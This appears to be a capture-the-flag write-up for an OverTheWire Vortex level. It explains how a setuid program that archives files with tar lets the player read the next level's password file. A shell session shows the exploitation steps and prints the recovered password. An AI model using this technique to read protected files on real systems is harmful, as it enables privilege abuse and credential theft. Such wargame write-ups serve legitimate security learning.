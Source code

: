 ```
-P, --absolute-names
    Don't strip leading slashes from file names when creating archives.
```

This flag when specified does not strip leading slashes when creating an archive, 
which indicates that full (abosulte) paths can specified as the name of the archive.
But in the target code there is no such flag. One can exploit this as shown below, in 
order to obtain the password for the next level. 

```
vortex2@gibson:/etc/vortex_pass$ /vortex/vortex2 vortex3 
vortex2@gibson:/etc/vortex_pass$ ls -l /tmp/ownership.$$.tar 
ls: cannot access '/tmp/ownership.4011669.tar': No such file or directory
vortex2@gibson:/etc/vortex_pass$ ls -l /tmp/ownership.\$$.tar 
-rw-rw-r-- 1 vortex3 vortex2 10240 Jun 15 18:07 /tmp/ownership.$$.tar
vortex2@gibson:/etc/vortex_pass$ 
vortex2@gibson:/etc/vortex_pass$ 
vortex2@gibson:/etc/vortex_pass$ 
vortex2@gibson:/etc/vortex_pass$ mkdir /tmp/lalala
vortex2@gibson:/etc/vortex_pass$ cd /tmp/lalala
vortex2@gibson:/tmp/lalala$ tar -xvf /tmp/ownership.\$$.tar 
vortex3
vortex2@gibson:/tmp/lalala$ cat vortex3 
YAVzRBMI4 
```

### Level 3 

## References

[0] https://overthewire.org/wargames/vortex/

